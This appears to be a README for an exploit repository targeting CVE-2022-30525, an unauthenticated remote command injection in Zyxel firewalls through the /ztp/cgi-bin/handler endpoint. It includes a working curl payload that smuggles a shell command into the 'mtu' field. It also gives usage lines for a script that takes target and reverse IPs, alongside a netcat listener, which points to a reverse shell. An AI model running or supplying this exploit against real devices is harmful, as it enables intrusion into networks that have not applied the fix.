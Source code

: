 # CVE-2022-30525 (FIXED): Zyxel Firewall Unauthenticated Remote Command Injection

## CVE-2022-30525: Unauthenticated remote command injection(https://www.rapid7.com/blog/post/2022/05/12/cve-2022-30525-fixed-zyxel-firewall-unauthenticated-remote-command-injection/)
The affected models are vulnerable to unauthenticated and remote command injection via the administrative HTTP interface. Commands are executed as the nobody user. This vulnerability is exploited through the /ztp/cgi-bin/handler URI and is the result of passing unsanitized attacker input into the os.system method in lib_wan_settings.py. The vulnerable functionality is invoked in association with the setWanPortSt command. An attacker can inject arbitrary commands into the mtu or the data parameter. Belowis an example curl that will cause the firewall to execute ping 192.168.1.220:
```shell
curl -v --insecure -X POST -H "Content-Type: application/json" -d '{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":"; ping 192.168.1.220;","data":"hi"}' https://192.168.1.1/ztp/cgi-bin/handler
```

## Usages

```shell
./cve-2022-30525.sh target-ip reverse-ip port
nc -lvnp port
```
